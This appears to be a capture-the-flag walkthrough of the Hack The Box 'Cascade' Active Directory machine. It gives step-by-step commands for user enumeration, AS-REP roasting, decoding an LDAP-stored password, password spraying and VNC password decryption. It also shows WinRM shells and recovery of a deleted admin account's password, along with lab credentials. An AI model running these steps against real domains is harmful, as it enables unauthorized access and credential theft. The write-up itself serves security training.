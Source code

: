 ### Making a Target User List (HTB Academy)
```bash
crackmapexec smb $IP --users # domain:cascade.local
❯ rpcclient -U "" -N $IP
rpcclient $> enumdomusers
```

##### Method 1 re-assembly rpcclient users list
```bash
cat rpc_users_raw.txt | cut -d"]" -f1 | tr "[" " " | cut -d " " -f2 > rpc_users.txt

# or 

cat rpc_users_raw.txt | awk -F\[ '{print $2}' | awk -F\] '{print $1}'
```

### ASREP Roasting
```bash
impacket-GetNPUsers cascade.local/ -dc-ip $IP -no-pass -usersfile rpc_users.txt
```

### ldapsearch
```bash
ldapsearch -x -H ldap://$IP -s base > ldapsearch_all.txt
ldapsearch -x -H ldap://$IP -s base -b "DC=cascade,DC=local" > ldapsearch_dc.txt
ldapsearch -x -H ldap://$IP -s base -b "DC=cascade,DC=local" '(objectClass=person)' > ldapsearch_person.txt

ldapsearch -H ldap://$IP -x -b "DC=cascade,DC=local" -s sub "(&(objectClass=user))"
ldapsearch -H ldap://$IP -x -b "DC=cascade,DC=local" -s sub "(&(objectClass=user))" | grep -i samaccountname: | cut -f2 -d" " > ldapsearch_user.txt
```
looks closely, there is one special user that other scans not poping it out.

CASC-DC1$

##### Enum others than user on ldapsearch
```bash
ldapsearch -H ldap://$IP -x -b "DC=cascade,DC=local" -s sub
ldapsearch -H ldap://$IP -x -b "DC=cascade,DC=local"
ldapsearch -H ldap://$IP -x -b "DC=cascade,DC=local" '(objectClass=person)'
```
cascadeLegacyPwd: clk0bjVldmE=

❯ echo clk0bjVldmE= | base64 -d
rY4n5eva

### ldapdomaindump
```bash
ldapdomaindump cascade.local
```

### windapsearch is way better !
```bash
/opt/windapsearch-linux-amd64 -d $IP -m users --full > windapsearch_go_user_full.txt

# a little trick
cat windapsearch_go_user_full.txt | awk '{print $1}' | sort | uniq -c | sort -nr
```

### ASREP Roasting Again
```bash
impacket-GetNPUsers cascade.local/ -dc-ip $IP -no-pass -usersfile rpc_users.txt
```

### Bash one-liner to try rpcclient and smb again
```bash
for u in $(cat rpc_users.txt); do smbmap -H $IP -u $u; done
for u in $(cat rpc_users.txt); do smbmap -H $IP -d cascade.local -u $u; done
```
```bash
for u in $(cat rpc_users.txt); do smbpasswd -r $IP -U $u; done
```

### Password sparying
```bash
crackmapexec smb $IP -u rpc_users.txt -p rY4n5eva | grep +

/opt/kerbrute_linux_amd64 passwordspray -d cascade.local --dc $IP rpc_users.txt rY4n5eva
```

SMB         10.129.114.189  445    CASC-DC1         [+] cascade.local\r.thompson:rY4n5eva

```bash
crackmapexec winrm $IP -u r.thompson -p rY4n5eva
```

### SMB Againt
```bash
❯ smbmap -H $IP -u r.thompson -p rY4n5eva
[+] IP: 10.129.114.189:445      Name: cascade.local                                     
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        Audit$                                                  NO ACCESS
        C$                                                      NO ACCESS       Default share
        Data                                                    READ ONLY
        IPC$                                                    NO ACCESS       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        print$                                                  READ ONLY       Printer Drivers
        SYSVOL                                                  READ ONLY       Logon server share 
```

spider
```bash
crackmapexec smb $IP -u r.thompson -p rY4n5eva -M spider_plus
```

#### mount smb with creds
```bash
sudo mount -t cifs //$IP/Data /mnt -o username=r.thompson,password=rY4n5eva,domain=cascade.local
```

##### VNC Decrypt
* https://github.com/billchaison/VNCDecrypt
* https://miloserdov.org/?p=4854#65
* https://github.com/frizb/PasswordDecrypts
```bash
echo -n 6bcf2a4b6e5aca0f | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d -provider legacy -provider default | hexdump -Cv
```

s.smith:sT333ve2

### Bloodhound-python
```bash
bloodhound-python -c DcOnly -u s.smith -p 'sT333ve2' -d cascade.local -dc CASC-DC1.cascade.local -ns $IP
```

### Hint here
```
net user s.smith
net localgroup "Audit Share"
```
That's unusual

### Rush SMB, SMB RUSH
```bash
smbclient \\\\$IP\\Audit$ -U s.smith%sT333ve2
```

`sqlitebrowser Audit.db`

❯ echo -n BQO5l5Kj9MdErXx6Q6AGOw== | base64 -d
������D�|zC�;                                                                                                                                                                                            
The table `LDAP` contains a password for the user. But encrypted


### Privilege Escalation
❯ python3 /usr/share/doc/python3-impacket/examples/wmiexec.py cascade.local/arksvc:'w3lc0meFr31nd'@cascade.local
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] SMBv2.1 dialect used
[-] rpc_s_access_denied
```                                                   
❯ python3 /usr/share/doc/python3-impacket/examples/psexec.py cascade.local/arksvc:'w3lc0meFr31nd'@cascade.local
[-] share 'ADMIN$' is not writable.
[-] share 'Audit$' is not writable.
[-] share 'C$' is not writable.
[-] share 'Data' is not writable.
[-] share 'NETLOGON' is not writable.
[-] share 'print$' is not writable.
[-] share 'SYSVOL' is not writable.
```
# Root

```
evil-winrm -i cascade.local -u arksvc -p w3lc0meFr31nd  # <-- !!! Sometimes just can't use ip to get a shell
*Evil-WinRM* PS C:\Users\arksvc\Documents> whoami /all

USER INFORMATION
----------------

User Name      SID
============== ==============================================
cascade\arksvc S-1-5-21-3332504370-1206983947-1165150453-1106


GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                            Attributes
=========================================== ================ ============================================== ===============================================================
Everyone                                    Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
CASCADE\Data Share                          Alias            S-1-5-21-3332504370-1206983947-1165150453-1138 Mandatory group, Enabled by default, Enabled group, Local Group
CASCADE\IT                                  Alias            S-1-5-21-3332504370-1206983947-1165150453-1113 Mandatory group, Enabled by default, Enabled group, Local Group
CASCADE\AD Recycle Bin                      Alias            S-1-5-21-3332504370-1206983947-1165150453-1119 Mandatory group, Enabled by default, Enabled group, Local Group
CASCADE\Remote Management Users             Alias            S-1-5-21-3332504370-1206983947-1165150453-1126 Mandatory group, Enabled by default, Enabled group, Local Group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10                                    Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
*Evil-WinRM* PS C:\Users\arksvc\Documents> 
```

The user is identified to belong to the `AD Recycle Bin` group. AD Recycle Bin is used to recover deleted AD objects such as Users, Groups, OUs etc. The objects keep all their properties intact.

```ps
Get-ADObject -filter 'isDeleted -eq $true' -includeDeletedObjects -Properties *
```

add a filter for user

Get-ADObject -filter { SAMAccountName -eq "TempAdmin"} -includeDeletedObjects -Properties *

YmFDVDNyMWFOMDBkbGVz

evil-winrm -i cascade.local -u administrator -p baCT3r1aN00dles
